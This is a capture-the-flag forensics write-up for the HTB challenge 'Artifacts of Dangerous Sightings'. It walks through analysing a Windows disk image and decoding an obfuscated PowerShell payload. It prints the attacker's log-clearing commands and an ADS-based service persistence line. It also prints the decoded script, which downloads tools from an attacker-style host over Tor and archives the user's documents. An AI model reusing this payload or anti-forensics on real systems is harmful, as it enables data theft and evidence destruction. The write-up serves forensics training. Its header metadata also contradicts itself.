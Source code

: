 # Artifacts of Dangerous Sightings

Category: Forensics
Difficulty: medium
Points: 1000

************Category************: Crypto

****************Points:**************** 425

************************Difficulty:************************ very easy

## Description

Pandora has been using her computer to uncover the secrets of the elusive relic. She has been relentlessly scouring through all the reports of its sightings. However, upon returning from a quick coffee break, her heart races as she notices the Windows Event Viewer tab open on the Security log. This is so strange! Immediately taking control of the situation she pulls out the network cable, takes a snapshot of her machine and shuts it down. She is determined to uncover who could be trying to sabotage her research, and the only way to do that is by diving deep down and following all traces …

## Walkthrough

### File Analysis

The provided file, **2023-03-09T132449_PANDORA.vhdx**, is a Windows-formatted Virtual Hard Disk. In Linux, we can mount it like this:

```python
sudo rmmod nbd
sudo modprobe nbd max_part=16
sudo qemu-nbd -c /dev/nbd0  2023-03-09T132449_PANDORA.vhdx
sudo mount -t ntfs -o loop,ro,show_sys_files,stream_interface=windows /dev/nbd0p1 /mnt/Windows/
```

So supposedly, Pandora found weird things in the security log. We can use **dumpevtx**  to parse the file and see if anything interesting comes up. I checked the file for a bunch of string, and found something interesting related to powershell:

```python
dumpevtx parse /mnt/Windows/C/Windows/System32/winevt/logs/Security.evtx > Security.txt
cat Security.txt | grep -i power
#"CommandLine": "sc  create WindowssTask binPath= \"\\\"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\\\" -ep bypass - \u003c C:\\Windows\\Tasks\\ActiveSyncProvider.dll:hidden.ps1\" DisplayName= \"WindowssTask\" start= auto"
```

The script hidden.ps1 is being executed as a **Task**. HOWEVER, the powershell logs are empty, so we can check if **ConsoleHost_history.txt** file exits

```python
find /mnt/Windows/C/Users -name 'ConsoleHost_history.txt'
#/mnt/Windows/C/Users/Pandora/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadline/ConsoleHost_history.txt
cat /mnt/Windows/C/Users/Pandora/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadline/ConsoleHost_history.txt
```

And this is the output, so the 'finpayload' was injected to ActiveSyncProvider.dll, and then all the PowerShell logs were deleted 🥲.

```python
type finpayload > C:\Windows\Tasks\ActiveSyncProvider.dll:hidden.ps1
exit
Get-WinEvent
Get-EventLog -List
wevtutil.exe cl "Windows PowerShell"
wevtutil.exe cl Microsoft-Windows-PowerShell/Operational
Remove-EventLog -LogName "Windows PowerShell"
Remove-EventLog -LogName Microsoft-Windows-PowerShell/Operational
Remove-EventLog
```

We can copy **ActiveSyncProvider.dll** to our working directory and try to extract the Powershell script.

```python
cp /mnt/Windows/C/Windows/Tasks/ActiveSyncProvider.dll .
```

I tried a bunch of things, until I realized that I had to execute stuff on the file in the mount point directly, since it's an alternate data stream. Hidden.ps1 contains a huge base64 encoded command, which I copy in my shell and directly decode, but some of the strings fail to decode properly. Eventually, I found that decoding the string in powershell, and saving it as an array is best for 'preservation' and limits the corruption of the data.

### Code Analysis

```python
cat /mnt/Windows/C/Windows/Tasks/ActiveSyncProvider.dll:hidden.ps1 > hidden.ps1 

#in pwsh
$file = "hidden.ps1"
[System.Convert]::FromBase64String((Get-Content $file)) | Set-Content output.bin
```

Then, I decode it in python, before re-parsing it in powershell :))))

```python
fp = open('output.bin').readlines()
fp = [int(i.strip()) for i in fp if int(i.strip()) != 0]

with open('dec.ps1','wb') as of:
 of.write(bytes(fp))
```

The file is a PAINFUL obfuscated script 😭. The last part of the line (since there's only one super long line lol ) has '|', so I wonder if I copy the part without '|', set it as a variable, and try to echo it in powershell. IT does work, but it returns a bunch of '[Char]' + integer . So, we must decode it again. I copy paste everything until the last '|', and this time, I get the code, and flag !

```python
function makePass
{
    $alph=@();
    65..90|foreach-object{$alph+=[char]$_};
    $num=@();
    48..57|foreach-object{$num+=[char]$_};

    $res = $num + $alph | Sort-Object {Get-Random};
    $res = $res -join '';
    return $res;
}

function makeFileList
{
    $files = cmd /c where /r $env:USERPROFILE *.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php;
    $List = $files -split '\r';
    return $List;
}

function compress($Pass)
{
    $tmp = $env:TEMP;
    $s = 'https://relic-reclamation-anonymous.alien:1337/prog/';
    $link_7zdll = $s + '7z.dll';
    $link_7zexe = $s + '7z.exe';

    $7zdll = '"'+$tmp+'\7z.dll"';
    $7zexe = '"'+$tmp+'\7z.exe"';
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zdll -o $7zdll;
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zexe -o $7zexe;

    $argExtensions = '*.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php';

    $argOut = 'Desktop\AllYourRelikResearchHahaha_{0}.zip' -f (Get-Random -Minimum 100000 -Maximum 200000).ToString();
    $argPass = '-p' + $Pass;

    Start-Process -WindowStyle Hidden -Wait -FilePath $tmp'\7z.exe' -ArgumentList 'a', $argOut, '-r', $argExtensions, $argPass -ErrorAction Stop;
}

$Pass = makePass;
$fileList = @(makeFileList);
$fileResult = makeFileListTable $fileList;
compress $Pass;
$TopSecretCodeToDisableScript = "HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}"
```

************Flag:************ HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}